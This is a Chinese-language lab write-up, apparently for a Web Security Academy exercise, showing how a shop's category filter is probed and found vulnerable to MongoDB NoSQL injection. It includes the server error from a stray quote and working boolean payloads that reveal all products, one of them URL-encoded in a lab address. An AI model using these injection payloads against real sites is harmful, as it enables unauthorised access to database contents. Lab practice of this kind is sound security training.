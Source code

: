 这里首先是一个商城的界面，随便点击一个category

`url: /filter?category=Accessories`

可以看见这里有类似于查询的意思，我们输入一个单引号试试

![](assets/1706959875-60363a0fd135a2fbb89deb01b73d5f4a.png)

可以看见报错了，报错内容：

```cpp
Command failed with error 139 (JSInterpreterFailure): 'SyntaxError: unterminated string literal : functionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25 ' on server 127.0.0.1:27017. The full response is {"ok": 0.0, "errmsg": "SyntaxError: unterminated string literal :\nfunctionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25\n", "code": 139, "codeName": "JSInterpreterFailure"}
```

很明显可以看见mogodb的操作。那么我们还要判断他是否会把url的内容带入数据库查询，所以我们构造`Accessories'&& 0 && 'x`

![](assets/1706959875-f2eac54aaa776104979f6b2a026f2d19.png)

可以看见是返回正常的，说明这里存在注入,我们再构造一次为真的条件，就会发现会返回所有商品信息 ，playload:[https://xxxxxxxxxxxxx.web-security-academy.net/filter?category=accessories%27%7c%7c1%7c%7c%27](https://xxxxxxxxxxxxx.web-security-academy.net/filter?category=accessories%27%7c%7c1%7c%7c%27 "https://xxxxxxxxxxxxx.web-security-academy.net/filter?category=accessories%27%7c%7c1%7c%7c%27")
